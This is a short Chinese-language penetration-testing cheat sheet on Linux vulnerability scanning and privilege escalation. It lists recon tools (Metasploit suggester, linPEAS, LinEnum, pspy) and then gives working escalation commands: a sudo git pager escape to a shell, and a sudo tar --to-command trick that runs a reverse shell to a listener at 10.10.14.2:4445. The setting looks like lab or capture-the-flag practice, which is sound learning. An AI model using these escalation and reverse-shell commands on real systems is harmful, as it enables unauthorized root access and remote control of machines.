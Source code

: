 ```yaml
---
title: Linux漏洞扫描与提权
date: 2021/12/12
tags: [linux,渗透测试,漏洞利用]
categories: 渗透测试
top_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_19.jpg
cover: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_19.jpg
---
```




# Linux漏洞扫描与提权

## 漏洞扫描

- msf

```
use post/multi/recon/local_exploit_suggester
```

- **[windows-exploit-suggester.py](https://github.com/mxrmiss/Automation-script/blob/cb1807ed3582b9d965f77d048f5a8952a69ddd5d/Windows-Exploit-Suggester/Windows-Exploit-Suggester-master/windows-exploit-suggester.py)**
    - 需要安装pip2



- pspy

```
需要先给pspy脚本执行权力才能执行
```

- linPEAS

```
git clone https://github.com/mxrmiss/PEASS-ng.git
```



- LinEnum

```
git clone https://github.com/mxrmiss/LinEnum.git
```





## 提权

-  git

```
sudo git -p help config
# 末行模式下书写
!/bin/sh
```

-  tar

```
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.2/4445 0>&1' > xxx.sh
tar -cvf xxx.tar xxx.sh
sudo  -u onuma tar -xvf xxx.tar --to-command /bin/bash
```





